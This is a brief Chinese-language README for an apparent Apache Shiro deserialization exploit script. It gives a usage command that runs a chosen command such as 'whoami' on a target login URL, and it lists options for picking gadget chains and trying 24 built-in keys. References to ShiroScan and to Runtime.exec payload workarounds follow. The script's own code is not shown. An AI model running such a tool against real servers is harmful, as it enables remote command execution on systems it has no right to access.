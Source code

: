 ## Apache Shiro

#### 使用方法

```bash
python3 Apache_Shiro_Scan.py -u http://target.com/user/login.do -c 'whoami' -g CommonsCollections10
```

`-u` 指定目标 url
`-c` 指定命令
`-g` 指定 `Gadget`，如不指定，遍历脚本中的 11 个 `Gadget`
`-k` 指定 `key`，如不指定，遍历脚本中的 24 个 `key`

#### 参考

[ShiroScan](https://github.com/sv3nbeast/ShiroScan)

[java.lang.Runtime.exec() Payload Workarounds](http://www.jackson-t.ca/runtime-exec-payloads.html)
